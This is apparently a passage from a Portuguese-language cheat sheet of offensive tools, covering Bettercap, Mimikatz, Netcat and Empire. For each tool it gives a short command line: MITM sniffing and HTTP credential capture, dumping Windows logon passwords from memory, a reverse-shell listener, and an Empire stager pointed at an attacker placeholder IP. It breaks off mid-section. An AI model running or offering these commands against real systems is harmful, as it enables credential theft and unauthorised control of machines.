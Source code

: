 
## 📌 13. Bettercap
- **Finalidade:** Ferramenta para **ataques de Man-in-the-Middle (MITM)**, captura de tráfego e exploração de redes.
- **Comandos de execução:**
  ```bash
  bettercap -iface wlan0
  ```
  - Para realizar um ataque de sniffing:
    ```bash
    bettercap -iface eth0 -eval "net.sniff on"
    ```
  - Para capturar credenciais de login HTTP:
    ```bash
    bettercap -iface wlan0 -eval "http.proxy on"
    ```

---

## 📌 14. Mimikatz
- **Finalidade:** Ferramenta para **extração de credenciais de Windows**, incluindo **hashes de senhas, tokens e tickets Kerberos**.
- **Comandos de execução (no Windows):**
  ```cmd
  mimikatz
  ```
  - Para listar credenciais de login armazenadas na RAM:
    ```cmd
    sekurlsa::logonpasswords
    ```

---

## 📌 15. Netcat
- **Finalidade:** Ferramenta utilizada para **criação de backdoors, transferência de ficheiros e comunicação remota**.
- **Comandos de execução para criar um listener reverso:**
  ```bash
  nc -lvnp 4444
  ```
  - Para conectar a um servidor remoto:
    ```bash
    nc <IP_ALVO> 4444
    ```

---

## 📌 16. Empire
- **Finalidade:** Framework pós-exploração para **comando e controlo remoto de sistemas** comprometidos.
- **Comandos de execução:**
  ```bash
  ./empire
  ```
  - Para iniciar um listener:
    ```bash
    listeners
    ```
  - Para criar um agente de ataque:
    ```bash
    usestager windows/meterpreter/reverse_http
    set LHOST <IP_DO_ATACANTE>
    execute